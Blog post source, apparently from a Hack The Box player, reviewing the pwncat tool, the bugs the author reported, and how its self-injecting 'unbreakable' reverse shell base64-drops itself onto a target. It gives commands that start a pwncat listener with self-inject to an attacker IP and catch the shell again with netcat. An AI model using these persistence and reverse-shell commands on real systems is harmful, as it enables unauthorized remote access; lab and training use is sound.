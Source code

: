 ```yaml
---
layout: post
author: dalemazza
title: Pwncat - Netcat on steroids!  
date: 2020-06-21
category: blog
tags: blog
---
```



## Do you hate when you Ctrl+c in a reverse shell and lose it? I did until I found Pwncat!  

<p align="center">
  <img width="400" height="400" src="/assets/pwncat.jpg">
</p>

Recently I was doing a machine on Hack the box, I managed to get a reverse shell on the machine but it was flaky and kept crashing on me. This got me thinking that surely someone somewhere has made a script to fix this problem?  

After some google fu I stumbled across this [github](https://github.com/cytopia/pwncat) repo. It had everything I had ever dreamed about in one tool! Some highlights include:  

* Port Scanning
* Self-injecting reverse shell
* Bind shell
* Reverse shell
* Port forwarding
* Protection from Ctrl+c !!!!!!
* Evade IPS and Firewall
* Plus much more!

I had to try this tool! So I cloned the repo and put it to the test. I quickly wanted to try the `--self-inject` function out. To my surprise it caught the reverse shell but did not work after after upgrading the shell to TTY.  
<p>&nbsp;</p>

## Bug 1  


During the process to upgrade the shell to TTY I found that the shell would crash after the last stage of returning to the shell with the command `fg`. I then approached the creator on github and entered the issue as a bug. The creator quickly resolved the issue, It was related to how the shell interpreted the “enter” after the `fg`. The bug was fixed, Now to try again!  
<p>&nbsp;</p>

## Bug 2  


Now I had a full TTY shell. I went back and tried to catch the shell again but with the `--self-inject` flag. After setting up the pwncat listener with the inject flag `pwncat -l 1234 --self-inject /bin/bash:10.10.14.28:1234` I quickly learnt that it was not injecting into a python binary. Once again I submitted this as a bug and he quickly solved the issue. This time it was related to the way the reverse shell sends back the shell, he had to change the way pwncat behaved to interpret many types of reverse shell. 1 day later he sent me a message saying he had a fix! Third times the charm.
<p>&nbsp;</p>
---
## How does it work?  

As the client (reverse shell) connects to the your host machine it does the following:  

1. Enumerate Python availability and versions on the target.
2. Dump itself base64 encoded onto the target.
3. Use the target’s Python to decode itself.
4. Use the target’s Python to start itself as an unbreakable reverse shell back to you .

Once this is done the client will constantly send back a reverse shell to the ip/port you specified in pwncat, So if you break the shell all you have to do is set up a listener of your choice and listen for the reverse shell. This is massive as most reverse shells rely on you running an exploit each time to spawn the shell, This way you only have to run the exploit once.  
<p>&nbsp;</p>
---

## Heres how to do it  

First you need a client with a reverse shell set up for your machine and port. Next you need to run this command:  
```bash
pwncat -l 1234 –self-inject /bin/bash:10.10.14.28:1234
```
The command breaks down into the following, pwncat listening on port 1234, running the inject flag, spawning a bash shell to the ip and port of your machine. It should like a little something like this.  

<p align="center">
  <img width="1024" height="505" src="/assets/pwncat1.png">
</p>
#### Fig 1. The result of injecting to a unbreakable shell
<p>&nbsp;</p>

Now your shell should be unbreakable! to test this press Ctrl+c , this should break the shell. Now all you have to do it run a listener here are some examples:
```bash
nc -lvnp 1234
pwncat -l 1234
```  
<p align="center">
  <img width="1024" height="221" src="/assets/pwncat2.png">
</p>
#### Fig 2. Here I Ctrl+c out of the shell, Then use a simple listener to catch the shell again.
<p>&nbsp;</p>
You now have your shell back without re-running exploits or reverse shells! I hope this helps you out.
